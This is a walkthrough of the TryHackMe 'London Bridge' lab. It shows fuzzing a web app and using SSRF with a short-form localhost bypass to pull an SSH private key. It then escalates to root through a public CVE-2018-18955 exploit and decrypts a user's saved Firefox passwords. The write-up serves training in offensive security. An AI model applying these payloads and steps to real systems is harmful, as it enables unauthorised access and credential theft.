









# TryHackMe — London Bridge Writeup

**Platform:** TryHackMe  
**Difficulty:** Medium  
**Techniques:** SSRF, 403 Forbidden Bypass, SSH Key Theft, Kernel Exploit (CVE-2018-18955), Firefox Password Decryption

---

## Overview

This room features a London-themed web application running on port 8080. The attack chain begins with discovering a hidden SSRF vulnerability through parameter fuzzing, bypassing a 403 restriction on localhost access, and using that to read sensitive files from the server's filesystem — including an SSH private key. Once on the box as `beth`, an outdated kernel version leads to a privilege escalation via CVE-2018-18955. Post-exploitation involves extracting a saved Firefox profile and decrypting Charles's credentials from it.

---

## Enumeration

Starting with a port scan to identify exposed services:

```bash
nmap -sV londonbridge.thm
```

```
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.6p1 Ubuntu
8080/tcp open  http    Gunicorn
```

Two ports open — SSH and a web application on port 8080. Navigating to it reveals an "Explore London" tourism site with sections for Attractions, Events, Gallery, and Contact.



The Gallery section showed a collection of London photos with a file upload option at the bottom, allowing visitors to contribute their own images.



Various file types were tested for upload vulnerabilities but nothing useful came through. Inspecting the page source revealed a developer comment that hinted at an alternative way to add images:



```html
<!--To devs: Make sure that people can also add images using links-->
```

This suggested a URL-based image feature might exist somewhere. Running `ffuf` confirmed it:

```bash
ffuf -u http://londonbridge.thm:8080/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

```
contact       [Status: 200]
gallery       [Status: 200]
upload        [Status: 405]
view_image    [Status: 405]
```

`/view_image` was returning 405 Method Not Allowed — a GET request wasn't accepted. To get past this, Burp Suite's intercept was used to catch the browser request, change the method from GET to POST, and forward it. The page then loaded successfully, revealing a simple "Enter Image URL" form.



---

## Foothold

With the endpoint now accessible, the request was sent to Repeater. The `image_url` parameter accepted a URL and rendered the image back in the response — a classic setup for SSRF testing.



Initial SSRF attempts using `image_url=http://127.0.0.1:8080` returned nothing interesting. The next move was to fuzz for additional hidden parameters:

```bash
ffuf -u 'http://londonbridge.thm:8080/view_image' \
  -w /usr/share/wordlists/dirb/common.txt \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -X POST -d 'FUZZ=http://127.0.0.1:8080' -fs 823
```

```
www    [Status: 403]
```

A hidden parameter `www` was found. Passing `http://127.0.0.1:8080` to it returned a 403 Forbidden — the server was blocking direct localhost access.



Common SSRF bypass techniques were tried. Using the short-form IP `http://127.0.1` successfully bypassed the restriction and the internal web page was served back in the response.



With SSRF confirmed, the `www` parameter was used to fuzz internal paths:

```bash
ffuf -u 'http://londonbridge.thm:8080/view_image' \
  -w /usr/share/wordlists/dirb/common.txt \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -X POST -d 'www=http://127.0.1/FUZZ' -fs 469
```

```
.ssh
.profile
.bashrc
.bash_history
uploads
templates
```

A `.ssh` directory was present — a clear target. Requesting `id_rsa` directly through the SSRF returned the full private key in the response.



The key was saved locally and the `authorized_keys` file was checked to identify the username:

```bash
curl -s 'http://londonbridge.thm:8080/view_image' \
  -d 'www=http://127.0.1/.ssh/id_rsa' -o id_rsa

chmod 600 id_rsa
```

The `authorized_keys` file showed `beth@london` at the end — username confirmed. SSH access was then straightforward:

```bash
ssh -i id_rsa beth@londonbridge.thm
```

User flag was located at `./__pycache__/user.txt`.

---

## Privilege Escalation

Checking the kernel version:

```bash
uname -a
Linux london 4.15.0-112-generic #113-Ubuntu SMP Thu Jul 9 23:41:39 UTC 2020
```

This version falls squarely in the range affected by **CVE-2018-18955** — a flaw in `map_write()` within `kernel/user_namespace.c` that allows privilege escalation through mishandled nested user namespaces with more than 5 UID or GID ranges.



A public exploit was available:

```bash
git clone https://github.com/scheatkode/CVE-2018-18955.git
```

The generated files were transferred to the victim machine via a Python HTTP server. Running the exploit:

```bash
bash exploit.dbus.sh
```

This created a setuid shell at `/tmp/sh`. Executing it gave a root shell:

```bash
/tmp/sh
id
uid=0(root) gid=0(root) groups=0(root),1000(beth)
```

Root flag was at `/root/.root.txt`.

---

## Post Exploitation

With root access, Charles's home directory was explored. A `.mozilla/firefox` folder was present — a strong indicator of saved browser credentials:

```bash
ls -la /home/charles
# .mozilla directory found
```

The Firefox profile was archived and transferred to the attacker machine:

```bash
# On victim:
tar -cvzf firefox.tar.gz firefox

# On attacker — extract:
tar -xzf firefox.tar.gz
```

`firefox_decrypt` was used to extract saved passwords from the profile:

```bash
git clone https://github.com/unode/firefox_decrypt.git
sudo python3 firefox_decrypt/firefox_decrypt.py firefox/8k3bf3zp.charles
```

```
Website:   https://www.buckinghampalace.com
Username: 'Charles'
Password: [REDACTED]
```

Charles's credentials were successfully recovered from the browser profile.

---

## Conclusion

London Bridge is a well-constructed room that chains together multiple real-world techniques. The initial foothold requires patience — the SSRF is not immediately obvious and needs both parameter fuzzing to discover the `www` field and a bypass to get past the 403 on localhost. Once inside, the `.ssh` directory exposure through SSRF to pull a private key is a clean and realistic attack path. The privilege escalation via CVE-2018-18955 reinforces the importance of keeping kernel versions up to date, and the Firefox credential extraction at the end adds a solid post-exploitation layer that goes beyond just grabbing flags. Overall a satisfying room that rewards thorough enumeration at every stage.
